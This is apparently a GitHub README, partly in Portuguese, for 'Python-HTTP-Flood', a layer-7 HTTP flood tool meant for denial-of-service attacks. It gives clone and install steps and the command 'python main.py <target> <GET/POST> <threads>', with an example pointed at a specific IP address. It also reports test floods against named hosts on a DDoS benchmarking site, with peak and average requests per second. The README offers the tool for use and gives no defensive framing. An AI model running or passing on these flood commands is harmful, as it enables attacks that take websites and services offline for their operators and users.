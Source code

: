 # Python-HTTP-Flood

## Install
```sh
git clone https://github.com/e43b/Python-HTTP-Flood/
cd Python-HTTP-Flood
pip install -r requirements.txt  
```

## Usage 
```sh
python main.py <target> <GET/POST> <threads>
example: python main.py http://51.159.30.249 POST 1500
```

Pc usado para rodar o script é uma máqiquina virtual com 1 nucleo e 2gb de ram

testes foram feitos no site `https://dstat.cc/` na layer 7 o site `http://142.171.195.145/HIT` na categoria `L7 Non Protected` e o site `https://nodec.mediathektv.com` na cátegoria `L7 Non Protected SSL`

## Testes na pática `POST`
https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142post.png)
`python main.py http://142.171.195.145/HIT POST 500`
### Requisições por segundo
máxima: 1500
media: 1000

https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecpost.png)
`python main.py https://nodec.mediathektv.com POST 700`
### Requisições por segundo
máxima: 2800
media: 1500

## Testes na pática `GET`
https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142get.png)
`python main.py http://142.171.195.145/HIT GET 500`
### Requisições por segundo
máxima: 3000
media: 1000

https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecget.png)
`python main.py https://nodec.mediathektv.com GET 700`
### Requisições por segundo
máxima: 2200
media: 1500

